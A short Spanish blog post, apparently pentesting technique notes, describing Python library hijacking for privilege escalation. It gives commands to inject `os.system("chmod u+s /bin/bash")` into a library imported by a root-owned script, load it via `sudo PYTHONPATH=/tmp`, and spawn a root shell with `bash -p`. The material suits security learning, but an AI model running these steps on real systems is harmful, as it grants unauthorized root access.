```yaml
---
layout: single
title: Python Library Hijacking - Privilege Escalation
excerpt: "Hoy aprenderemos como escalar privilegios con una libreria de Python"
date: 2022-10-27
classes: wide
header:
  teaser: /assets/images/pythonLibrary/logo.jpg
  teaser_home_page: true
categories:
  - Tecnicas
tags:
  - Escalada de Privilegios
  - Hijacking
  - Trabajo
---
```


<p align="center">
<img src="/assets/images/pythonLibrary/logo.jpg" width="400">
</p>

a) Primero hay que localizar un Script que el dueño sea root

b) Luego al entrar a ese script, veremos que se utiliza alguna librería, y deberemos buscarla en /usr/lib/python... 

c) Entonces, ahora en la librería lo que tenemos que poner es lo siguiente:
``import os``
``os.system("chmod u+s /bin/bash")``

  c.1) Si no podemos escribir la libreria, hay que copiarla a /tmp o /dev/shm, y ahi inyectarle el comando.

  c.2) Y ahora para ejecutar con la libreria con nuestro comando inyectado, seria un `sudo PYTHONPATH=/tmp python3 ...`

d) Esto lo que hará es que le dará a la bash permisos de superusuario.
ahora solamente deberemos insertar ``bash -p`` y listo.


